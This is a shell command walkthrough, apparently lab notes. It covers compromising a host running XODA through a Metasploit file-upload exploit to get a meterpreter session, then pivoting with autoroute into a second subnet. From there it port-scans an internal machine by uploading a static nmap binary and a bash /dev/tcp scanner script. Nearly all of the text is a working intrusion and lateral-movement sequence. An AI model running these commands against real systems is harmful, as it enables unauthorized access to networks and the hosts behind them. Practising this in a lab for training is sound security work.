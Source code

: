 ```shell
nmap --script http-enum -p 80 <target_IP>

service postgresql start && msfconsole
db_status
workspace -a xoda

search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS <target_IP>
set TARGETURI /
exploit
# Now we just going to wait for this to bering up a meterpreter session

# Start a command shell and identify the IP address range of the second target machine.
shell
ip addr
# We see eth1 that has a totally different IP subnet. Just add 1 to that IP address. 
# crtl+C to terminat the session. We can add the rout within the meterpreter. 
run autoroute -s <second_target_IP>

background

use auxiliary/scanner/portscan/tcp
set RHOSTS <second_target>
set verbose false
set ports 1-1000
exploit

# Check the static binaries available in the "/usr/bin/" directory.
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap

# use VIM - bash-port-scanner.sh
#!/bin/bash
for port in {1..1000}; do
timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done

# Upload the nmap static binary and the bash port scanner script to the target machine.
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh

# Make the binary and script executable and use the bash script to scan the second target machine.
shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh <second_target_IP>

# Using the nmap binary, scan the target machine for open ports.
./nmap -p- <second_target_IP>
```
